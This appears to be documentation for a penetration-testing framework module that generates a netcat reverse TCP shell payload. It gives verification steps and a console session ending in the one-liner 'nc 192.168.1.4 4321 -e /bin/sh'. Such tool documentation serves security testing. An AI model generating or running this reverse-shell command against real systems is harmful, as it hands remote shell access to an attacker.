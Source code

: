 ## Description

Module generates payload that creates interactive tcp reverse shell by using netcat one-liner. 

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/cmd/netcat_reverse_tcp`
  3. Do: `set lhost 192.168.1.4`
  4. Do: `set lport 4321`
  5. Do: `run`
  6. Module generates netcat tcp reverse shell payload

## Scenarios

```
rsf > use payloads/cmd/netcat_reverse_tcp
rsf (Netcat Reverse TCP) > set lhost 192.168.1.4
[+] lhost => 192.168.1.4
rsf (Netcat Reverse TCP) > set lport 4321
[+] lport => 4321
rsf (Netcat Reverse TCP) > run
[*] Running module...
[*] Generating payload
nc 192.168.1.4 4321 -e /bin/sh
```
